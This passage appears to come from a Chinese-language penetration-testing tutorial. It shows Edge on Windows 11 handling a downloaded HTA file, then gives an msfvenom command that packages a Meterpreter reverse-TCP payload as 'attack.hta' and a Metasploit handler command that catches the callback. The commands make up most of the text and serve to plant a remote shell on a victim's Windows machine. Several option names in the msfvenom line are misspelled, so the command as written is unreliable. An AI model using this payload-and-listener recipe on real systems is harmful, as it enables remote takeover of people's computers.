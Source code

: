 ![Windows11 Edge hta 下载存在打开按钮.png](assets/1708583756-b567117e394bbc3589cd94d19870b050.png)

这里以 Windows 11 上 Edge 为例，点击打开会有警告提示。

![Windows11 运行 hta 警告.png](assets/1708583756-6141296cbba3278e0216f6e471c7b31e.png)

2.HTA 反弹 MSF

msfvenom 生成 HTA 文件。

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhos=<Host> loport=<Port> -f htfa-psh -o attack.hta
```

msf 监听即可。

```bash
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```
